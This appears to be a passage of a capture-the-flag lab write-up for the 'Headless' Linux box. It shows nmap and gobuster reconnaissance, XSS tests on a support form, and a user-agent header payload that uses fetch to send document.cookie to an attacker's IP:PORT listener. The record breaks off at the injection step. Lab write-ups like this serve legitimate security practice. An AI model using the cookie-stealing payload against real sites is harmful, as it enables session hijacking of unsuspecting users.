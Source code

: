 # Headless

![[attachments/Pasted image 20240330173641.png]]

**Rating**: Easy
**OS**: Linux
**Category**:

# Nmap Scan

![[attachments/Pasted image 20240330174335.png]]

```
nmap -sCV -A -p- -T4 --min-rate=1000 -oN scan IP
```

Website running on port 5000

![[attachments/Pasted image 20240330174502.png]]

Directory Scan:

![[attachments/Pasted image 20240330174728.png]]

```
gobuster dir -u http://URL/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

**/support** webpage:

![[attachments/Pasted image 20240330174830.png]]

Testing for XSS in the Message field gives an alert.

Payload:

![[attachments/Pasted image 20240330180247.png]]

```Javascript
<script>alert('XSS')</script>
```

Result:

![[attachments/Pasted image 20240330180329.png]]

Testing various payloads in different fields give same result.

Next up, we can try injecting some common vulnerable headers like the `user-agent` header with XSS payload. 

Fill in random details and capture request using burpsuite.

![[attachments/Pasted image 20240330175119.png]]

Send request to repeater:

![[attachments/Pasted image 20240330175424.png]]

Testing XSS in the `user-agent` header using the payload:

```Javascript
<img src=x onerror=fetch('http://IP:PORT/'+document.cookie);>
```

First up setup a python server:

```shell
python -m http.server
```

![[attachments/Pasted image 20240330181051.png]]

Inject payload:


